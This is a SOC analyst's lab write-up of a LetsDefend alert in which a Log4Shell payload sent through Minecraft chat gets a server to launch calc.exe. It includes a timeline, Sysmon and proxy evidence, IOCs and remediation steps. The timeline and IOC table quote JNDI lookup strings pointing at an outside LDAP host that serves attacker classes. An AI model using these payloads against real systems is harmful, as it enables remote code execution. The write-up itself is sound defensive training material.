









# Incident Report: Log4j RCE Exploit on an Internal Minecraft Server

**Incident:** Log4Shell Exploitation of a Minecraft Server on the Internal Network
**Platform:** LetsDefend
**Severity:** Critical
**Category:** Web Attack (Exploitation of a Public Facing Application)
**Date:** 11/12/21
**Related Alerts:** SOC161

> Investigation answers and platform flags are redacted. This report documents the analysis process and reasoning, not the solution to the exercise.

---

## 1. Alert overview

| Field               | Value                            |
| :------------------ | :------------------------------- |
| Alert ID            | SOC161                           |
| Trigger Time        | 2021-12-11 10:41:12 (UTC+03:00)  |
| Rule Name           | SOC161 Log4j RCE Exploit         |
| Severity            | Critical                         |
| Source Address      | 151.135.112.161                  |
| Destination Address | 192.168.10.69 (Minecraft Server) |
| Device Action       | Allowed                          |

This rule watches for CVE-2021-44228, better known as Log4Shell. Log4j is a Java library that almost every Java application uses to write its log files. In vulnerable versions, Log4j does not simply store the text it is told to log. If that text contains a JNDI lookup string such as `${jndi:ldap://attacker/payload}`, the library resolves it, reaches out to the address inside it, and loads whatever Java class comes back. Anything an attacker can get written into a log becomes a way to run code on the server.

The alert fired because a Java process on the Minecraft Server host spawned a command shell. The L1 note on the ticket said the server had been set up for the SOC team to play on, that `calc.exe` showed up in the Sysmon logs, and that the analyst did not understand how it got there.

---

## 2. Alert report

**Verdict:** True Positive

**Time of Activity:**

| Time (local) | Activity                                                         |
| :----------- | :--------------------------------------------------------------- |
| 10:35:52     | Minecraft server starts: `java.exe -jar paper-1.12.2-1618.jar`   |
| 10:37:57     | Player `testuser23` connects from 151.135.112.161                |
| 10:40:00     | `testuser23` sends "hey" in chat                                 |
| 10:40:16     | `testuser23` sends `${jndi:ldap://18.217.235.130:1389/exploit2}` |
| 10:40:16     | `cmd.exe /c calc.exe` executes, parent process `java.exe`        |
| 10:40:33     | `testuser23` sends `${jndi:ldap://18.217.235.130:1389/exploit}`  |
| 10:40:33     | `cmd.exe /c start echo "Log4j Exploit Test Success"` executes    |
| 10:42:58     | `testuser23` disconnects                                         |

Proxy logs record the payload downloads at 14:40:17 UTC. Endpoint timestamps are in local time. Both refer to the same activity.

**Affected Entities:**

| Entity                  | Value                                                                     |
| :---------------------- | :------------------------------------------------------------------------ |
| Affected host           | Minecraft Server, 192.168.10.69, Windows Server 2019                      |
| Host IP in Sysmon       | 172.31.43.155, EC2AMAZ-ILGVOIN.us-east-2.compute.internal                 |
| User account            | EC2AMAZ-ILGVOIN\LetsDefend, primary user minecraftAdmin                   |
| Vulnerable application  | paper-1.12.2-1618.jar on Java JDK 1.8.0_181                               |
| Vulnerability           | CVE-2021-44228 (Log4Shell)                                                |
| Attacker account        | testuser23                                                                |
| Attacker source IP      | 151.135.112.161                                                           |
| Attacker infrastructure | 18.217.235.130, AWS EC2 in us-east-2                                      |
| LDAP endpoint           | 18.217.235.130:1389, the JNDI lookup destination                          |
| Payload URLs            | http://18.217.235.130/Exploit.class, http://18.217.235.130/Exploit2.class |
| Processes involved      | java.exe (PID 2528), cmd.exe (PID 800), calc.exe                          |
| Files dropped           | None observed, the Java classes were loaded into memory by java.exe       |
| Antivirus action        | Allowed                                                                   |

**Reasoning:**

The alert triggered on a Log4j exploitation attempt against the Minecraft Server host (192.168.10.69), originating from the player account `testuser23` at 151.135.112.161. Investigation confirmed that two JNDI strings were sent through in game chat and resolved by Log4j, that `java.exe` then opened an LDAP connection to 18.217.235.130 on port 1389 and pulled down `Exploit.class` and `Exploit2.class` over HTTP, and that `java.exe` went on to spawn `cmd.exe /c calc.exe`, which indicates that remote code execution through CVE-2021-44228 succeeded on the host.

The connection was allowed rather than blocked, both at the perimeter and by antivirus. Execution did occur, but nothing followed it. There was no persistence, no credential access, no privilege escalation, no lateral movement, and no outbound transfer beyond the two payload downloads. The second process ran at Medium integrity, meaning standard user rights, and the player disconnected roughly two minutes after the second payload.

Several details point towards a vulnerability test rather than a real intrusion: the username `testuser23`, a payload that only opens a calculator, a success message written with `echo`, and the date, two days after Log4Shell went public. Telemetry alone cannot settle that question, and it does not change the state of the host. The server was exploitable, and it still is.

**Escalation:** Required. Remote code execution was achieved against an internal host through a critical vulnerability that was public knowledge at the time, and antivirus let it through. The two Java payloads were retrieved and executed in memory, and their contents were never captured, so there is no way to confirm what else they did beyond spawning the processes that were observed.

**Recommended Remediation Action:**

1. Keep the host isolated until Log4j is patched and the forensic review is finished.
2. Update Log4j to a patched version or upgrade the Minecraft server build. As an interim measure, set `log4j2.formatMsgNoLookups=true`.
3. Block 18.217.235.130 at the perimeter firewall.
4. Audit the estate for other applications running vulnerable Log4j versions, starting with anything reachable from the internet.
5. Search proxy and firewall logs for outbound LDAP connections on ports 389, 636 and 1389 from other hosts.
6. Search the application logs of other Java services for the string `${jndi:`. The log on this host was already checked during the investigation and held only the two messages from `testuser23`, but no other application has been reviewed.

**Indicators of Compromise:**

| Type           | Indicator                                     | Notes                                                   |
| :------------- | :-------------------------------------------- | :------------------------------------------------------ |
| IP             | 18.217.235.130                                | Attacker infrastructure, LDAP listener and payload host |
| IP             | 151.135.112.161                               | Source address of the attacking player                  |
| URL            | http://18.217.235.130/Exploit.class           | Second stage payload                                    |
| URL            | http://18.217.235.130/Exploit2.class          | Second stage payload                                    |
| File Name      | Exploit.class, Exploit2.class                 | Java classes loaded through JNDI                        |
| Payload string | `${jndi:ldap://18.217.235.130:1389/exploit}`  | Sent via in game chat                                   |
| Payload string | `${jndi:ldap://18.217.235.130:1389/exploit2}` | Sent via in game chat                                   |
| Account        | testuser23                                    | Attacker username inside the application                |

**MITRE ATT&CK:**

| Tactic              | Technique                                                | ID        |
| :------------------ | :------------------------------------------------------- | :-------- |
| Initial Access      | Exploit Public Facing Application                        | T1190     |
| Execution           | Command and Scripting Interpreter: Windows Command Shell | T1059.003 |
| Command and Control | Ingress Tool Transfer                                    | T1105     |

---

## 3. Investigation

### 3.1 Initial triage

The alert gave me a parent process, a child process and not much else. `paper-1.12.2-1618.jar` spawning `cmd.exe /c calc.exe`, Critical severity, a CVE ID attached to the ticket. A game server has no reason to open a command shell, so the question was never whether this looked wrong. The question was how the shell got there. With CVE-2021-44228 on the ticket, Log4Shell was the working hypothesis going in, and the rest of the investigation was an attempt to connect a chat message to a running process.

The endpoint page confirmed the target. Windows Server 2019, hostname Minecraft Server, 192.168.10.69, primary user minecraftAdmin, containment switched off at the time of triage.

### 3.2 Endpoint analysis

Terminal history is where the exploitation becomes visible. The Java process starts at 10:35:52, and five minutes later two command lines appear underneath it.

`cmd.exe /c calc.exe` at 10:40:16, then `cmd.exe /c start echo "Log4j Exploit Test Success"` at 10:40:33. Whoever did this was not hiding.

Paging back a day, the same host shows a short run of commands on 10 December: `mstsc /f`, `net user`, `whomai`, `whami`, `notepad`, `cd`, `dir`, `net`. Two of those are misspellings of `whoami`, which reads more like someone typing by hand than a script. I flagged it as possible discovery activity the day before the exploit, but I could not tie it to the attacker, and an administrator working on the box would leave a similar trail. It stays an open question rather than a finding.

The process list shows the same thing from a second angle, with the calculator sitting under Java.

A Minecraft server has no reason to launch a calculator, which is exactly why one gets used as a payload. `calc.exe` proves code execution without changing anything on the system.

### 3.3 Sysmon

Terminal history shows what ran. Sysmon shows how the processes relate to each other. I logged into the host and worked through Event Viewer.

Event ID 1, process creation:

The command line is `cmd.exe /c calc.exe`, the working directory is the Minecraft server folder, and the parent image is `C:\Program Files\Java\jdk1.8.0_181\bin\java.exe` running `paper-1.12.2-1618.jar`. That pairing is the evidence. It rules out someone typing at a terminal and puts the execution inside the vulnerable Java process. IntegrityLevel is Medium, so the shell ran with standard user rights and nothing tried to elevate.

Event ID 3, network connection:

`java.exe` connected outbound to 18.217.235.130 on port 1389. Port 1389 is the LDAP port that Log4Shell exploitation almost always uses, and the destination hostname resolves to an EC2 instance in AWS us-east-2. This is the callout the JNDI string triggers, and it falls between the chat message and the process creation in time.

### 3.4 Application log

The Minecraft server log is where the attack starts. Searching it for `${jn` lands on two chat messages from `testuser23`, who logged in from 151.135.112.161 at 10:37:57.

At 10:40:00 the account sends "hey". At 10:40:16 and 10:40:33 it sends the two JNDI strings. Both match the paths in the LDAP connection, and both line up to the second with the process creations in Sysmon. Because the server writes chat messages to its log through Log4j, the strings were resolved as lookups instead of being stored as text. The account disconnects at 10:42:58.

The search returned nothing else. Two payloads, one account, one session. Worth saying out loud, because it bounds the exploitation on this host to a single two minute window. It says nothing about the rest of the estate, where no application log has been checked yet.

### 3.5 Log management

Log management catches the second stage. Two proxy entries at 14:40:17 UTC show 192.168.10.69 reaching out to 18.217.235.130 on port 80, next to the firewall entry for the LDAP connection on 1389.

The raw logs name the files.

`Exploit.class` and `Exploit2.class`, both matching the JNDI paths from the chat messages. This is the LDAP referral stage. The server asks the attacker's LDAP service for a class, the service points it at an HTTP URL, and Java fetches and loads the class from there.

### 3.6 Attack chain

1. `testuser23` sends a JNDI payload through Minecraft chat.
2. Log4j resolves the string while writing it to the log, and `java.exe` connects to 18.217.235.130:1389 over LDAP.
3. The LDAP response redirects to HTTP, and `java.exe` downloads `Exploit.class` and `Exploit2.class`.
4. The payload executes: `java.exe` spawns `cmd.exe /c calc.exe`.
5. A confirmation message is written with `echo`.

### 3.7 What was not observed

The things I looked for and did not find shaped the scope of the response as much as the things I did find. Across Sysmon, the process list and the network logs there was no sign of:

1. Persistence. No registry autoruns, scheduled tasks, services or startup entries were created.
2. Credential access. No dumping tools, no access to lsass, no reads of credential files.
3. Privilege escalation. The process ran at Medium integrity and nothing tried to elevate.
4. Lateral movement. No connections to other internal hosts.
5. Data exfiltration. No outbound transfers beyond the two payload downloads.

So the attacker had code execution on an internal server and used it to open a calculator. That is why this ends as an escalation rather than a full incident response. It is also the part I find uncomfortable to write up. The access was real and nothing on the network stopped it. The attacker simply chose to stop.
